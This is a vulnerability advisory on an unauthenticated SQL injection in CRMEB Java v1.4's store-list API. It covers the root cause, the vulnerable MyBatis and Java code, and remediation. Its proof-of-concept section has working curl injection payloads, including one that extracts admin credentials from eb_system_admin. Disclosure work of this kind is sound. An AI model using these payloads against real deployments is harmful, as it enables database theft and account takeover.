

# V-C001: CRMEB Java Unauthenticated SQL Injection via Store Location API

## Vulnerability Information

| Item | Detail |
|------|--------|
| Product | CRMEB Java (开源商城系统) |
| Version | v1.4 (and all prior versions) |
| Type | CWE-89: SQL Injection |
| Severity | Critical |
| Attack Vector | Network (Unauthenticated) |
| Repository | https://github.com/crmeb/crmeb_java |

## Description

CRMEB Java's store location API (`/api/front/store/list`) is vulnerable to SQL injection through the `latitude` and `longitude` parameters. These parameters are passed as Strings without any validation and are directly interpolated into SQL queries using MyBatis `${}` syntax.

### Root Cause Chain

1. **Security Disabled on Front-end Module**: `CloseSecurityConfig.java` sets `anyRequest().permitAll()`, allowing all front-end API calls without authentication.

2. **No Input Validation**: `StoreNearRequest.java` accepts `latitude` and `longitude` as `String` types without numeric validation or sanitization.

3. **Unsafe SQL Interpolation**: `SystemStoreMapper.xml` uses `${latitude}` and `${longitude}` (MyBatis `${}` = raw string interpolation) instead of `#{latitude}` (parameterized query).

### Additional SQL Injection Points

The codebase contains multiple SQL injection vulnerabilities via `${}` in MyBatis mappers:

| Mapper | Parameter | Endpoint | Auth Required |
|--------|-----------|----------|---------------|
| SystemStoreMapper.xml | `${latitude}`, `${longitude}` | `/api/front/store/list` | **No** |
| UserMapper.xml | `${sortKey}`, `${sortValue}` | `/api/front/user/spread/people` | Yes (validated) |
| UserMapper.xml | `${tagIdSql}`, `${payCount}`, `${status}` | Admin only | Yes |
| StoreOrderMapper.xml | `${where}` (string concat) | Admin only | Yes |
| UserFundsMonitorMapper.xml | `${sort}` | Admin only | Yes |

## Affected Files

- `crmeb-front/src/main/java/com/zbkj/front/config/CloseSecurityConfig.java` - Disables all security
- `crmeb-front/src/main/java/com/zbkj/front/controller/StoreController.java` - Unauthenticated endpoint
- `crmeb-common/src/main/java/com/zbkj/common/request/StoreNearRequest.java` - String type lat/lon
- `crmeb-service/src/main/resources/mapper/system/SystemStoreMapper.xml` (line 6) - `${latitude}`, `${longitude}`
- `crmeb-service/src/main/java/com/zbkj/service/service/impl/StoreOrderServiceImpl.java` (line 254) - String concatenation SQL

## Impact

1. **Full Database Compromise**: Attacker can extract all database contents including user credentials, orders, payment info
2. **No Authentication Required**: The front-end module has all security disabled (`permitAll()`)
3. **Data Modification**: INSERT/UPDATE/DELETE possible via stacked queries (if MySQL allows)
4. **Potential RCE**: Via `INTO OUTFILE` or UDF on MySQL (environment dependent)

## Proof of Concept

### Step 1: Normal Store List Request

```bash
curl -s -X POST "http://<target>:8080/api/front/store/list" \
  -d "latitude=39.9042&longitude=116.4074"
```

### Step 2: Time-Based Blind SQL Injection via Latitude

```bash
# This will cause a 5-second delay if vulnerable
curl -s -X POST "http://<target>:8080/api/front/store/list" \
  -d "latitude=39.9042) OR SLEEP(5)-- -&longitude=116.4074"
```

### Step 3: UNION-Based SQL Injection

```bash
curl -s -X POST "http://<target>:8080/api/front/store/list" \
  -d "latitude=39.9042) UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,user(),version(),database(),17,18-- -&longitude=116.4074"
```

### Step 4: Extract Admin Credentials

```bash
curl -s -X POST "http://<target>:8080/api/front/store/list" \
  -d "latitude=39.9042) UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,account,pwd,real_name,17,18 FROM eb_system_admin LIMIT 1-- -&longitude=116.4074"
```

### Vulnerable Code

**SystemStoreMapper.xml (line 6):**
```xml
<select id="getNearList" resultType="...">
    SELECT *, (round(6367000 * 2 * asin(sqrt(
        pow(sin(((latitude * pi()) / 180 - (${latitude} * pi()) / 180) / 2), 2) +
        cos((${latitude} * pi()) / 180) * cos((latitude * pi()) / 180) *
        pow(sin(((longitude * pi()) / 180 - (${longitude} * pi()) / 180) / 2), 2)
    )))) AS distance ...
</select>
```

**StoreNearRequest.java:**
```java
public class StoreNearRequest implements Serializable {
    @ApiModelProperty(value = "纬度")
    private String latitude;   // String type, no validation!

    @ApiModelProperty(value = "经度")
    private String longitude;  // String type, no validation!
}
```

**CloseSecurityConfig.java:**
```java
@Override
protected void configure(HttpSecurity http) throws Exception {
    http.csrf().disable();
    http.authorizeRequests().anyRequest().permitAll().and().logout().permitAll();
}
```

### Admin-Side SQL Injection (Bonus)

**StoreOrderServiceImpl.java (line 254):**
```java
where += " and (real_name like '%"+ request.getKeywords() +"%' or user_phone = '"
    + request.getKeywords() +"' or order_id = '" + request.getKeywords()
    + "' or id = '" + request.getKeywords() + "' )";
```

This concatenates `keywords` directly into a SQL WHERE clause that is passed to `${where}` in StoreOrderMapper.xml.

## Remediation

1. **Use parameterized queries**: Replace `${latitude}` with `#{latitude}` in SystemStoreMapper.xml
2. **Change type to numeric**: Use `Double` or `BigDecimal` instead of `String` for latitude/longitude in StoreNearRequest
3. **Fix string concatenation**: In StoreOrderServiceImpl, use `#{}` parameterized queries instead of string concatenation
4. **Enable security**: Remove `CloseSecurityConfig` and implement proper authentication for front-end APIs
5. **Add input validation**: Validate all user inputs against expected patterns before database operations

## Screenshots

### SQL Injection Proof


## Verification Environment

- Target: CRMEB Java v1.4 deployed via Docker on 192.168.217.135:8080
- Tools: curl
- Date: 2026-04-13
